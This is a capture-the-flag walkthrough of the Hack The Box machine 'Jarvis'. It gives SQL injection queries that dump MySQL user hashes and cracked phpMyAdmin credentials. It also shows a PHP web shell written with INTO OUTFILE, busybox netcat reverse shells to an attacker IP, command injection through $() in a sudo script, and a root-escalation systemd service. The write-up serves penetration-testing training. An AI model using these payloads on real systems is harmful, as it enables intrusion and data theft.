- Machine Name: Jarvis
- OS Type: Linux
- Difficulty: Medium

QUERY THAT WORKED - [http://10.129.229.137/room.php?cod=200 UNION SELECT 1,GROUP_CONCAT(0x7c,user,0x7c,password,0x7c),3,4,5,6,7 FROM mysql.user;-- -](http://10.129.229.137/room.php?cod=200%20UNION%20SELECT%201,GROUP_CONCAT(0x7c,user,0x7c,password,0x7c),3,4,5,6,7%20FROM%20mysql.user;--%20-)

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Mon Apr 21 17:32:07 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up, received echo-reply ttl 63 (0.29s latency).
Scanned at 2025-04-21 17:32:08 IST for 227s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPuKufVSUgOG304mZjkK8IrZcAGMm76Rfmq2by7C0Nmo
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
64999/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 21 17:35:56 2025 -- 1 IP address (1 host up) scanned in 228.07 seconds

```

## Enumeration

### Port 80/HTTP

i’ll starting my enumeration from port 80 it’s running supersecurehotel.htb



let’s add this to /etc/hosts file

let’s try gobuster to find any hidden files or directories, first let’s fuzz for directories

```php
gobuster dir -u http://10.10.10.143/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



we found phpmyadmin directory, let’s try if we can login via default and common creds, No Luck

let’s check website manually for any interesting finding we found the room booking page, go to rooms > click on book now



the url is seems interesting as it uses the GET parameter `cod` to display room, what if we check for any common issue, possibly the application get’s room from database using cod parameter

let’s try to insert `'` and see how web app react



---

changed the parameter and website’s behavior changed unexpectedly, so we can now assume that if any error occurs the website’s UI will change, so let’s try to use UNION Based SQLi to get the number of columns from the database, we use **`1 UNION SELECT 1,2,....`** and increase the column name until we get normal response



now this shows that there are total 7 columns in the database, now we need to check which column number contains what data, so i’ve first used the id to 200, that shows the blank page and run query again to see the number of columns and its data



great we now know that we need to use columns - 5,2,3,4 for display any data, let’s try to print the database version using `@@version` on column 2



let’s start enumerating the database name using

```php
200 UNION SELECT 1,GROUP_CONCAT(0x7c,schema_name,0x7c),3,4,5,6,7 from information_schema.schemata
```

this will show the database name



let’s enumerate tables from the database

```php
200 UNION SELECT 1,GROUP_CONCAT(0x7c,table_name,0x7c),3,4,5,6,7 from information_schema.tables where table_schema='hotel'
```

we found the **room** table name let’s get the column names from the table

let’s enumerate column names from the database

```php
	200 UNION SELECT 1,GROUP_CONCAT(0x7c,column_name,0x7c),3,4,5,6,7 from information_schema.columns WHERE table_name='room'
```

nothing interesting found here, let’s check in mysql table use below query to display tables in the mysql database with `pipe` separator and `\n` new line to get proper output



the `user` table looks interesting let’s enumerate tables from it

```php
200 UNION SELECT 1,GROUP_CONCAT(0x7c,column_name,0x7c,'\n'),3,4,5,6,7 from information_schema.columns where table_name='user'

```

above query will return the columns from the user table



so the user and password column looks interesting let’s select value from it

```php
200 UNION SELECT 1,GROUP_CONCAT(0x7c,User,0x7c,Password),3,4,5,6,7 from mysql.user
```



let’s crack the hash using [crackstation.net](http://crackstation.net) 



nice we got the credentials let’s login to phpmyadmin using `DBadmin:imissyou` 



let’s try to get RCE using phpmyadmin, now mysql provides functionality to write into files using sql query

```php
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/test.php" 
```



query ran successfully means the file has been created successfully, let’s try to access it over [http://10.10.10.143/test.php](http://10.10.10.143/test.php) (here we just guessed that the website is located at /var/ww/html, it can be any sub directory inside the /var/www/html)

accessing the webshell we got RCE on the system



we’ll use pretty simple nc command to get reverse shell `busybox nc 10.10.14.17 443 -e /bin/bash` 

and we got the reverse shell on kali port 443



use below python oneliner to get proper tty shell

```php
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

to check other user’s who has valid shell on the machine we can use `cat /etc/paswd | grep sh` 



ok so the pepper and root only two users with valid shell

checking if user has permissions to run any command using sudo `sudo -l` 



Oh nice! we can execute /var/www/Admin-Utilities/simpler.py as pepper without password using sudo



checking the permissions we found we don’t have write permissions to file, let’s check the content of the file



this part looks interesting as it checks if the user has supplied any characters from the forbidden list if it match the character it says got you and exit the script if no character match from the list it pass the argument to os.system command, this part of code is looks vulnerable, now let’s execute the script to see what it returns



so the `-p` argument will execute the exec_ping function directly, so the forbidden list contains some basic special characters to prevent users to input, but it doesn’t include the `$`or `()` as we know in bash we can execute command wth $(command) let’s try to execute id command



we can see that id command get executed let’s try to execute reverse shell, as the `-` is included in forbidden list we can not directly run the nc command instead we can write the shell to file and then execute the shell how’s it!

```php
echo -e "busybox nc 10.10.14.17 443 -e /bin/bash" > /tmp/shell.sh
```

execute the shell 

```php
$(bash /tmp/shell.sh)
```



we got reverse shell connection on our kali machine



enumerating system we found the interesting SUID binary file

```php
find / -type f -perm -4000 2>/dev/null
```



let’s get the root then

first we’ll create a our own service file `i.e test.service`

```php
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c '/bin/busybox /bin/nc 10.10.14.17 443 -e /bin/bash'

[Install]
WantedBy=user-multi.target
```

then enable the service by giving full path of the service file, start the netcat listener on port 443

```php
systemctl enable /home/pepper/test.service
```



start the service

```php
systemctl start test.service
```

and you’ll get reverse shell as root

